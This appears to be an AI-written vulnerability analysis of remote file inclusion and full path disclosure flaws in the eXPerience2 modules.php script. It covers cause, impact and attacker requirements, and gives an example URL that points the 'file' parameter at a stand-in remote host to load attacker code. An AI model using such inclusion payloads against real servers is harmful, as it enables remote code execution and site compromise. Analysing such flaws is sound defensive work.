 Based on the provided content, here's an analysis of the vulnerabilities:

**Vulnerabilities:**

*   **Remote File Inclusion (RFI):** The `modules.php` script in eXPerience2 is vulnerable to RFI. This allows an attacker to include a remote file by manipulating the `file` parameter in the URL, such as `http://www.host-vulnerable.com/eXPerience2/modules.php?file=http://evil-file/`.
*   **Full Path Disclosure (FPD):** The `modules.php` script also discloses the full server path when accessed directly (e.g., `http://www.host-vulnerable.com/eXPerience2/modules.php`). This can provide attackers with valuable information about the server's filesystem.

**Root Cause:**

*   The RFI vulnerability is caused by the application's failure to properly sanitize user-supplied input for the `file` parameter, allowing the inclusion of remote URLs.
*   The FPD vulnerability is likely due to a lack of proper error handling or a misconfiguration in the application, causing it to reveal its full path in error messages or other outputs.

**Impact of Exploitation:**

*   **RFI:** An attacker can execute arbitrary code on the server by including a malicious script from a remote location. This can lead to complete system compromise, data theft, and defacement of the website.
*   **FPD:** While FPD itself is not a direct attack, it aids attackers in planning further attacks. The attacker can leverage this information to discover more vulnerabilities or to construct exploits, such as for local file inclusion (LFI) vulnerabilities.

**Attack Vectors:**

*   **RFI:** Attacker crafts a malicious URL with the `file` parameter pointing to their malicious script.
*   **FPD:** Attacker directly accesses the vulnerable `modules.php` script.

**Required Attacker Capabilities/Position:**

*   The attacker needs to be able to send HTTP requests to the vulnerable server.
*   For RFI, the attacker needs access to a server where they can host their malicious script.
*   No special privileges are required for exploiting these vulnerabilities.

**Additional Notes:**
*   The report does not specify the exact version of eXPerience2 affected.
*   The report does not mention how the file is used in the vulnerable script.
